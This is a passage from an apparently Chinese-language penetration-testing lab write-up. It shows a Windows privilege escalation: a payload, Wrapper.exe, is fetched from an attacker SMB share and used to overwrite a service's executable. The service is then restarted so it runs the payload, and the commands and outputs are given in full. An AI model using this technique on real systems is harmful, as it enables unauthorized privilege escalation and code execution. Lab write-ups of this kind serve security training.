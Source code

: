 
拷贝到靶机,并移动到目标服务路径
```
PS C:\xampp\htdocs\resources\uploads> copy \\10.50.102.104\share\Wrapper.exe
copy \\10.50.102.104\share\Wrapper.exe


PS C:\xampp\htdocs\resources\uploads> copy Wrapper.exe "C:\Program Files (x86)\System Explorer\System.exe"
copy Wrapper.exe "C:\Program Files (x86)\System Explorer\System.exe"

PS C:\xampp\htdocs\resources\uploads> dir "C:\Program Files (x86)\System Explorer\"
dir "C:\Program Files (x86)\System Explorer\"


    Directory: C:\Program Files (x86)\System Explorer


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       21/12/2020     23:55                System Explorer                                                       
-a----       25/08/2022     09:15           3584 System.exe   
```

重启靶机，触发服务
```
PS C:\xampp\htdocs\resources\uploads> sc.exe stop SystemExplorerHelpService
sc.exe stop SystemExplorerHelpService

SERVICE_NAME: SystemExplorerHelpService 
        TYPE               : 20  WIN32_SHARE_PROCESS  
        STATE              : 3  STOP_PENDING 
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x1388

PS C:\xampp\htdocs\resources\uploads> sc.exe start SystemExplorerHelpService
sc.exe start SystemExplorerHelpService

SERVICE_NAME: SystemExplorerHelpService 
        TYPE               : 20  WIN32_SHARE_PROCESS  
        STATE              : 2  START_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 1768
        FLAGS              : 

```
